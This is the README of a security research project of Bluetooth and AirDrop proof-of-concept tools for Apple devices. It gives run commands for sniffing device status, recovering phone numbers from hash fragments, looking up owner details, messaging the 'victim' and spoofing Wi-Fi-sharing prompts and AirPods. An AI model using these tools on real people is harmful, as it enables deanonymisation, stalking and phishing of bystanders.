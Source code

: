# Apple bleee

<p align="center">
  <img src="https://github.com/hexway/apple_bleee/blob/master/img/logo.jpg"  height="350">
</p>

## Disclaimer
These scripts are experimental PoCs that show what an attacker get from Apple devices if they sniff Bluetooth traffic.

***This project is created only for educational purposes and cannot be used for 
law violation or personal gain.<br/>The author of this project is not responsible for any possible harm caused by the materials of this project***


## Requirements
To use these scripts you will need a Bluetooth adapter for sending `BLE` messages and Wi-Fi card supporting active monitor mode with frame injection for communication using `AWDL` (airdrop). We recommend the Atheros AR9280 chip (IEEE 802.11n) we used to develop and test this code.
We have tested these PoCs on **Kali Linux**


## Installation

```
# clone main repo
git clone https://github.com/hexway/apple_bleee.git && cd ./apple_blee
# install dependencies
sudo apt update && sudo apt install -y bluez libpcap-dev libev-dev libnl-3-dev libnl-genl-3-dev libnl-route-3-dev cmake libbluetooth-dev
sudo pip3 install -r requirements.txt
# clone and install owl for AWDL interface
git clone https://github.com/seemoo-lab/owl.git && cd ./owl && git submodule update --remote  --merge && mkdir build && cd build && cmake .. && make && sudo make install && cd ../..
```

## How to use

Before using the tool, check that your Bluetooth adapter is connected

```
hcitool dev
Devices:
    hci0    00:1A:7D:DA:71:13
```


### Script: [ble_read_state.py](https://github.com/hexway/apple_bleee/blob/master/ble_read_state.py) 

This script sniffs `BLE` traffic and displays status messages from Apple devices.
Moreover, the tool detects requests for password sharing from Apple devices. In these packets, we can get first 3 bytes of sha256(phone_number) and could try to guess the original phone number using prepared tables with phone hash values. 

![dev_status](img/dev_status.png) 

```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-c] [-n] [-r] [-l] [-s] [-m] [-a] [-t TTL]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help          show this help message and exit
  -c, --check_hash    Get phone number by hash
  -n, --check_phone   Get user info by phone number (TrueCaller/etc)
  -r, --check_region  Get phone number region info
  -l, --check_hlr     Get phone number info by HRL request (hlrlookup.com)
  -s, --ssid          Get SSID from requests
  -m, --message       Send iMessage to the victim
  -a, --airdrop       Get info from AWDL
  -t TTL, --ttl TTL   ttl
```

For monitoring you can just run the script without any parameters

```bash
sudo python3 ble_read_state.py
```

press `Ctrl+q` to exit

If you want to get phone numbers from a wifi password request, you have to prepare hashtable (please find scripts below), setup a web server and specify `base_url` inside this script and run it with  `-c` parameter 

```bash
sudo python3 ble_read_state.py -с
```

**Video demo (click):**

[![airdrop_demo](img/status_gif.gif)](https://www.youtube.com/watch?v=Bi602yAIBAw)

### Script: [airdrop_leak.py](https://github.com/hexway/apple_bleee/blob/master/airdrop_leak.py) 

This script allows to get mobile phone number of any user who will try to send file via AirDrop

For this script, we'll need `AWDL` interface:
```bash
# set wifi card to monitor mode and run owl
sudo iwconfig wlan0 mode monitor && sudo ip link set wlan0 up && sudo owl -i wlan0 -N &
```

Now, you can run the script

```bash
python3 airdrop_leak.py -h
usage: airdrop_leak.py [-h] [-c] [-n] [-m]

Apple Airdrop phone number catcher
---chipik

optional arguments:
  -h, --help         show this help message and exit
  -c, --check_hash   Get phone number by hash
  -n, --check_phone  Get user info by phone number (TrueCaller/etc)
  -m, --message      Send iMessage to the victim
```

With no params, the script just displays phone hash and ipv6 address of the sender

```bash
sudo python3 airdrop_leak.py 
```

**Video demo (click):**

[![airdrop_demo](img/airdrop_gif.gif)](https://www.youtube.com/watch?v=mREIeH_s3z8)

### Script: [adv_wifi.py](https://github.com/hexway/apple_bleee/blob/master/adv_wifi.py) 

This script sends `BLE` messages with WiFi password sharing request. This PoC shows that an attacker can trigger pop up message on target device if he/she knows any phone/email that exist on victim's device   

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

Wifi pwd sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  Wi-Fi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

For a wifi password request, we'll need to specify any contact(email/phone) that exists in a victim's contacts and the SSID of a wifi network that victim knows.

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```

**Video demo (click):**

[![share_wifi_demo](img/share_wifi_pwd2_gif.gif)](https://www.youtube.com/watch?v=QkGCP2mfbJ8)

### Script: [adv_airpods.py](https://github.com/hexway/apple_bleee/blob/master/adv_airpods.py) 

This script mimics airpods by sending `BLE` messages 

```bash
python3 adv_airpods.py -h
usage: adv_airpods.py [-h] [-i INTERVAL] [-r]

AirPods advertise spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
  -r, --random          send random charge values
```

Let's send `BLE` messages with random charge values for headphones

```bash
sudo python3 adv_airpods.py -r
```

**Video demo (click):**

[![airdrop_demo](img/airpods_gif.gif)](https://www.youtube.com/watch?v=HoSuLUtrkXo)

### Script: [hash2phone](https://github.com/hexway/apple_bleee/blob/master/hash2phone/) 

You can use this script to create pre-calculated table with mobile phone numbers hashes<br>
Please find details [here](/hash2phone) 

## Contacts

[https://hexway.io](https://hexway.io)<br>
[@_hexway](https://twitter.com/_hexway) 

